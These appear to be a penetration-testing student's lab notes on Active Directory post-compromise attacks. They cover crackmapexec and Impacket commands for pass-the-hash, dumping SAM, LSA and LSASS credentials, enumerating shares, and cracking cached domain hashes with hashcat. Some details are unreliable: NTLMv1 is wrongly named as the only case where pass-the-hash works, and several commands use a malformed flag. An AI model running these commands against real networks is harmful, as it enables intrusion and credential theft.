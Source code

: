 # Active Directory Post-Compromise Attacks

### Introduction

What happens after we have an account?

Moving vertically and laterally

### Pass Attacks Overview

**Pass the Password/Pass the Hash**

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

**Pass the Password**

`crackmapexec smb 10.0.0.0/24 -u user -d domain -p password`

Grab hashes with Metasploit's `hashdump` or with Impacket's secretsdump if we have access to an Admin account

`impacket-secretsdump domain/user:password@10.0.0.1`

**Pass the Hash**

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth`

We can use CME to dump valuable data

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --sam`

Enumerate shares

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --shares`

Dump the Local Security Authority (LSA)

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --lsa`

CME also has built-in modules, list them with `crackmapexec smb -L`

lsassy allows us to dump the [Local Security Authority Subsystem Service (LSASS)](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)

Allows us to access credentials that may not be dumped with secretsdump 

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth -M lsassy`

There's also a database for CME called the `cmedb`

### Pass Attacks Lab

Example attack

Run a pass the password attack with the credentials recovered from our initial attacks then use the access 
found with CME to start dumping data

`crackmapexec smb 10.0.0.0/24 -u user -d domain -p password`

Pass the hash attacks *only work with NTLMv1*

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth`

Run CME to dump the SAM hashes when we pwn some machines, the hashes will be added to the cmedb

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --sam`

Enumerate the shares

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --shares`

Dump the LSA, will also be dumped by secretsdump

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --lsa`

mscache hashes (DCC2) will be dumped and can be cracked so look for Domain Administrator account names

`hashcat -m 2100 -O hash.txt rockyou.txt`

If the password has a date try incrementing it, if it has multiple symbols e.g. !!!, try adding an additional 
symbol

Use CME modules to see what else the credentials can do (GPP password, impersonate, keepass file discovery, 
etc.)

`crackmapexec smb -L`

Run lsassy to dump any secrets stored in memory (NTLM hashes of logged in users)

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth -M lsassy`
